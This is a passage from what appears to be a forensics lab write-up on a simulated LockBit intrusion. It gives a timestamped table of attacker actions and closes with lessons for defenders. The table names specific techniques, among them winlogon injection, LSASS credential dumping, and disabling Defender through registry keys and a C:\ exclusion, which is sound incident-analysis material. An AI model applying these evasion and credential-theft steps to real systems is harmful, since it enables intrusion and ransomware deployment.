| 2023-12-14 14:47:13 | Privilege Escalation | SQLServer | `powershell.exe` (PID 3096) injected shellcode into `winlogon.exe` (PID 596) via remote thread — escalated from `NEXTECH\\SQLService` to `NT AUTHORITY\\SYSTEM` | T1055, |
| T1055.001 |  |  |  |  |
| 2023-12-14 14:53:13 | Persistence | SQLServer | Injected `winlogon.exe` beacon created scheduled task `UpdateCheck` — `powershell -File UpdateCheck.ps1` on logon as SYSTEM | T1053.005 |
| 2023-12-14 15:00:42 | Credential Access | SQLServer | `rundll32.exe` (PID 5456) with injected shellcode (`UNKNOWN` call stack) opened `lsass.exe` with `0x1010` — credential dump | T1003.001 |
| 2023-12-14 15:02:48 | Lateral Movement | FileServer | `ceabe99.exe` (`Backdoor:Win64/CobaltStrike.NP!dha`) dropped to `C:\\Windows\\` — blocked by Defender Real-Time Protection | T1021.006 |
| 2023-12-14 15:04:24 | Defense Evasion | FileServer | `winlogon.exe` beacon issued `Invoke-Command -ComputerName FileServer` via WinRM — wrote `DisableAntiSpyware=1` to `HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows Defender` |  |
| T1562.001, T1021.006 |  |  |  |  |
| 2023-12-14 15:07:02 | Lateral Movement | DC01 | WinRM connection from SQLServer (`192.168.170.142`) to DC01 (`192.168.170.124:5985`) — remote service installation initiated | T1021.006 |
| 2023-12-14 15:07:03 | Defense Evasion | DC01 | `C:\\` added as full-drive exclusion to Defender — `HKLM\\SOFTWARE\\Microsoft\\Windows Defender\\Exclusions\\Paths\\C:\\` | T1562.001 |
| 2023-12-14 15:07:03 | Execution | DC01 | `8fe9c39.exe` (`Backdoor:Win64/CobaltStrike.NP!dha`) detected at `\\\\DC01\\ADMIN$\\` — CobaltStrike beacon deployed via remote service | T1569.002 |
| 2023-12-14 15:21:55 | Impact | DevPC | `SysWOW64\\rundll32.exe` (32-bit beacon) dropped `vmware.exe` to `C:\\Windows\\Temp\\` — ransomware staged to disk | T1036, T1105 |
| 2023-12-14 15:22:23 | Credential Access | SQLServer | `vmware.exe` (PID 3288) opened `lsass.exe` with `0x1fffff` — secondary credential dump via standalone tool | T1003.001 |
| 2023-12-14 15:22:57 | Impact | DevPC | `vmware.exe` executed — dropped `C:\\Users\\dmiller\\Downloads\\HHuYRxB06.README.txt` — LockBit Black encryption began | T1486 |

# Lab Insights

- **One exposed service is a full domain compromise path**: a single SQL Server with TCP/1433 internet-facing and a weak `sa` password was the only entry point needed. From there the attacker reached a Domain Controller, a file server, and a developer machine using only built-in Windows protocols. One misconfigured service, entire domain compromised.
- **Living off the land means the attacker's tools are your tools**: every lateral movement, persistence, and execution step used binaries already on the system — `rundll32.exe`, `cmd.exe`, `powershell.exe`, `schtasks`, WinRM. No custom tooling touched disk until the ransomware payload. Detecting this class of attack requires behavioral baselines, not signature matching.
- **Defense evasion is sequential, not simultaneous**: Defender was disabled before every major action using three methods tailored to context — runtime toggle, policy registry key, and exclusion path. Each was chosen based on what would survive a reboot or service restart, revealing deliberate operational awareness of Windows internals.
- **Process injection turns a single foothold into a persistent SYSTEM shell**: injecting into `winlogon.exe` gave the attacker a process that is always running, always SYSTEM, and never suspicious. Every subsequent action — persistence, credential dumping, lateral movement — issued from that one injected process for 17+ minutes. Killing initial access does not kill an injected beacon.
- **Sysmon is the forensic source of last resort**: Security and System logs on `DC01` were cleared. Sysmon was the only surviving record of the WinRM lateral movement, the source IP, and the Defender exclusion timing. Log clearing defeats Windows event logging; it does not defeat a properly deployed Sysmon configuration.
- **Timestamps are the attack chain**: no single artifact tells the full story, but correlating timestamps across four machines and three log sources reconstructed the exact sequence from first brute force to first encrypted file. The 62-second gap between file drop and ransom note, the 22-minute window between credential dump and detonation, the 2-minute gap between beacon block and Defender disable — timing is evidence.

# Forensic Timeline


